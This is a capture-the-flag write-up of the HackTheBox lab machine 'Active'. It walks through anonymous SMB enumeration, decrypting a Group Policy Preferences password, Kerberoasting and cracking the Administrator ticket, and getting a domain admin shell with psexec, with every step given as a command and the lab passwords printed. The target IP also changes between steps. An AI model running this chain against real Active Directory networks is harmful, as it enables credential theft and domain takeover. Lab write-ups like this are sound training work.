




# Active -- HackTheBox (write-up)

**Difficulty:** Easy / Beginner
**Box:** Active (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-12-02

---

## TL;DR

### Anonymous SMB access to Replication share revealed GPP-encrypted credentials. Decrypted with gpp-decrypt, then Kerberoasted the Administrator account. Pass-the-hash with psexec for domain admin.
---
## Target info

- Host: `10.129.78.4`
- Domain: `active.htb`
---
## Enumeration



Ran enum4linux with null creds:

```bash
enum4linux -a -u "" -p "" 10.129.78.4
```



Spidered SMB shares with nxc:

```bash
nxc smb 10.129.78.4 -u '' -p '' -M spider_plus && cat /tmp/nxc_spider_plus/10.129.78.4.json
```



---
## Initial foothold -- GPP password



Connected to SMB and found `Groups.xml` in the Replication share containing a GPP-encrypted password for `SVC_TGS`:

```bash
smbclient.py 10.129.78.4
```

Decrypted the cpassword:

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

Password: `GPPstillStandingStrong2k18`

Confirmed access:

```bash
smbclient.py active.htb/svc_tgs:GPPstillStandingStrong2k18@10.129.78.4
```

Got user flag from `Users\SVC_TGS\Desktop\user.txt`.

---
## Privesc -- Kerberoasting

Requested service tickets:

```bash
GetUserSPNs.py -request -dc-ip 10.129.140.216 active.htb/svc_tgs
```

Got a TGS hash for the Administrator account. Cracked it with hashcat:

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

Password: `Ticketmaster1968`

Got domain admin shell:

```bash
psexec.py active.htb/administrator@10.129.74.111
```

---
## Lessons & takeaways

- GPP passwords in SYSVOL are trivially decryptable -- always check Replication/SYSVOL shares
- Kerberoasting is effective when service accounts have weak passwords
- Anonymous SMB access can be the initial foothold on AD boxes
---
